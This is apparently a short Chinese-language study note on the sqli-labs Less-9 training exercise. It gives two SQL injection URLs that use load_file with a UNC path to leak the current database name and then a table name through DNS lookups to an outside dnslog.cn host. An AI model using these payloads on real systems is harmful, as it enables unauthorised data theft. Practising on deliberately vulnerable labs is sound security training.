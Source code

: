 



### 注入流程-Less-9

#### 查看当前数据库

```
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and (select load_file(concat("//",(select database()),".ljr4uu.dnslog.cn/benen")))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606162328932.png" alt="image-20230606162328932" style="zoom:50%;" />

#### 爆表

```
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 1,1),".ljr4uu.dnslog.cn/benen")))%23
```

